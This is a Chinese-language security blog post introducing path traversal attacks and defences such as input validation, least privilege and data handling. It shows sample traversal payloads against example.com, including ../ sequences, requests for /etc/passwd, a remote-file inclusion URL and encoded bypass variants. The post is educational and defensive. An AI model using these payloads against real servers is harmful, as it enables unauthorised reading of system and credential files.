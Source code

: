 ```yaml
---
title: 零基礎資安系列（五）-路徑遍歷（Path Traversal）
author: jo
date: 2021-05-30
tags: [Security,ZeroBased,Path Traversal]
layout: layouts/post.njk
image: /img/posts/jo/zerobased-path-traversal/cover.jpeg
---
```

<!-- summary -->
## 前言

> 路徑遍歷（Path Traversal）就像想像網站是一個博物館，裡面有許多房間，其中有些房間是 Staff Only 而且門上了鎖不讓訪客進入，但有趣的是博物館裡的每一個房間都有通風口，只要知道房間位置，就可以透過其他房間的通風口前往 Staff Only 的房間獲得所有你想要的資料。
<!-- summary -->

## 釋例

今天想和大家聊聊在網站安全上攻擊者容易執行但卻常被開發者忽略的路徑遍歷（Path Traversal）攻擊，談談關於路徑遍歷在網站安全上可能造成的風險以及如何預防。

通常路徑遍歷也被稱目錄遍歷（Directory Traversal），但他有個更具體而且蠻可愛的名字叫做點點斜線攻擊（Dot dot slash attack），那為什麼會叫這個名字呢？

舉個實際的例子，Linux 中，目錄的顯示是 / Users / hello / Desktop / file，如果使用者輸入 cd ../ 指令時，當前的目錄就會回到上一層，那這會有什麼問題？當這個指令是任一使用者測試在網站 URL 上輸入 ../ 都可以成功執行回到網站目錄上一層的時候問題就大條了，這表示告訴攻擊者，我有路徑遍歷的風險，你可以開始嘗試囉！

## 常見的路徑遍歷攻擊手法

以下拿幾個路徑遍歷的攻擊常見的範例來說明：

假設網址呈現的方式為：

```txt
https://www.example.com/get-files?file=report.pdf
```

而攻擊者在真正的執行路徑遍歷攻擊以前，常會使用絕對路徑遍歷的手法探測目標網站的網站架構，例如說：
```txt
https://www.example.com/get-files?file=/etc/passwd
```
，嘗試以常用的系統絕對路徑試探是否有回應當，當伺服器回應有關網站應用程序中的錯誤的信息時，攻擊者可以更容易猜測正確的位置（例如顯示原始碼的文件路徑）。

### 1.攻擊者嘗試訪問目錄外的路徑：

```txt
https://www.example.com/../../../../some dir/some file
```
攻擊者藉由多次的 ../ 來超脫當前的目錄，訪問不在目錄下的資料。

### 2.攻擊者嘗試讀取目錄中的系統檔案

```txt
https://www.example.com/get-files?file=/etc/passwd
```

攻擊者藉由 /etc/passwd 來嘗試直接讀取系統檔案，如果真的被攻擊者讀取到 /etc/passwd 檔的話，攻擊者很有可能藉此解讀 root user 的密碼，另外，值得一提的是，如果網站架在 Windows 的系統中的話，攻擊者只能訪問Web根目錄所在的磁碟分區，但如果是在 Linux 系統中的話，攻擊者則可以訪問整個磁碟。

### 3.攻擊者嘗試使網站引用外部文件或腳本

```txt
https://www.example.com/get-files?file=http://other-site.com/malicius-code.php
```

攻擊者藉由嘗試將其他網站中的文件包含到當前網站的目錄，讓系統去引用攻擊者的惡意外部文件或腳本，進而達到提權或是竊取機敏資料的目的。

### 4.攻擊者以竄改 HTTP 的請求藉此對伺服器發起攻擊

```txt
GET /vulnerable.php HTTP/1.0   
Cookie: TEMPLATE=../../../../../../../../../etc/passwd
```

與上列不同的是攻擊者不是經由竄改 URL 而達成路徑遍歷的攻擊，而是藉由竄改 HTTP 的請求以多次的../來超脫當前網站的目錄，使伺服器回應傳送 etc/passwd 解讀 root user 的密碼。

## 變形的路徑遍歷攻擊

在看完上述所說明的攻擊之後，你可能想說那我只要擋掉使用者在我的 URL 以及 HTTP 請求的輸入進行驗證及限制，不允許../的出現，那麼針對路徑遍歷的攻擊也就無用武之地了吧？

一個好消息和一個壞消息告訴你，好消息是你的觀念正確，對URL 以及 HTTP 請求的輸入進行驗證及限制的確是避免路徑遍歷攻擊的應對策略之一，但壞消息是../是有變形的，而且還有很多種變形，其中最常見的變形就是在**零基礎資安系列(二)-認識 XSS(Cross-Site Scripting)** 中和大家提過的HTML Encoder 會將 `%2e%2e%2f` 解析為 ../ 繞過針對 ../ 的檢查，除此之外還有 UTF-8 編碼 `%c1%1c` 會被解析為 / ，以及若是更進階一點的話攻擊者還可能使用 xor 概念，`%d0^%ff = /` 的編碼方式，繞過限制的字元，如果大家對攻擊者可能使用的進階 injection 有興趣，我之後會再寫一篇文章和大家說明，在這裡主要想告訴大家的是限制字元的輸入是個好的應對策略，但前提是將所有攻擊者可能的攻擊方式全部寫進規則中，否則仍然會使攻擊者有機可趁。

## 如何防禦

上面說了這麼多攻擊者可能的攻擊方式，又表示有那麼多變形的路徑遍歷攻擊，那難道我們對攻擊者就無計可施了嗎？

當然不是！依據我的經驗，針對路徑遍歷攻擊的防禦可以從三個方面來看

**1.輸入驗證**

針對路徑遍歷攻擊最直覺的防禦就是驗證及限制所有在 URL 以及 HTTP 請求，不允許輸入 ../ 以及其他變形的輸入，這方面的防禦強度會在於網站對於輸入驗證的規則完善度而決定。

**2.權限控管**

在開發和部署網頁應用程式的時候盡可能的以最小的權限執行，盡可能的刪除所有不常使用或權限過大的使用者並取消 Guest 角色，建立完整的 ACL（Access Control List） ，且確保文件的可讀可寫權限也的確受到控管（例如Linux 系統盡可能不要有權限 777 的文件，這會讓這份文件全世界可讀可寫），這樣的話即使攻擊者成功的查看網頁目錄，也會因為權限問題而導致無法存取文件，最多只能得知網站目錄架構及檔名。

**3.資料處理**

之所以把資料處裡放在最後一步是因為我認為資料處理是面對攻擊者的最後一道防線，即使攻擊者可以繞過輸入驗證，成功獲得瀏覽目錄的權限，但如果目錄中沒有隱密資料或是將重要資料另外備份在其他的伺服器，例如密碼檔、已經沒有被引用的舊文件、網站備份的資料、Log 紀錄、系統版本紀錄 等，攻擊者在沒有獲得任何有效資料的情況下也只能繼續嘗試其他的攻擊路徑。

## 結論

雖然資料處理是三種防禦中面對攻擊者的最後一道防線，但我認為最重要的防禦還是針對路徑遍歷攻擊的輸入驗證，原因是因為對攻擊者來說，一但發現網站的輸入驗證規則設置周全或是一般常見的手法都沒辦法獲得任何有效的資料時，攻擊者通常會選擇另尋目標，所以我建議的方式會是建立一個針對路徑遍歷攻擊包含 ../ 及 HTML Encoder 編碼規則的輸入驗證會是針對路徑遍歷攻擊首先該做的事，接著才是刪除所有不常使用的使用者權限並且不允許遠端操作，將當前網站目錄中非必要存在的重要檔案另外備份並在當下的目錄中刪除，以上兩件事情可以依據公司的情況做調整，例如帳號權限複雜先不動或重要的檔案位置混亂不好歸納所以先處理權限 等，以公司承擔成本較低的方式自行取捨。

當以上三種防禦都進行之後，即使攻擊者願意花時間嘗試除了一般常見規則的路徑遍歷攻擊外再特別設計攻擊，並且在進入目錄後連一般使用者權限都沒有的情況下嘗試提權，再提權成功後，看著沒有高重要性資料的目錄同常也會感到挫折。

## 延伸閱讀

### 零基礎資安系列（二）- 認識 XSS(Cross-Site Scripting)

> [認識 XSS（Cross-Site Scripting）](https://tech-blog.cymetrics.io/jo/zerobased-cross-site-scripting)

#### 零基礎資安系列（四）- 認識注入攻擊（ Injection Attack）

> [認識注入攻擊（ Injection Attack）](https://tech-blog.cymetrics.io/jo/zerobased-injectionattack)

## 參考資料

### OWASP Path Traversal

> [https://owasp.org/www-community/attacks/Path\_Traversal](https://owasp.org/www-community/attacks/Path_Traversal)

### Wikipedia Path Traversal

> [https://en.wikipedia.org/wiki/Directory\_traversal\_attack](https://en.wikipedia.org/wiki/Directory_traversal_attack)
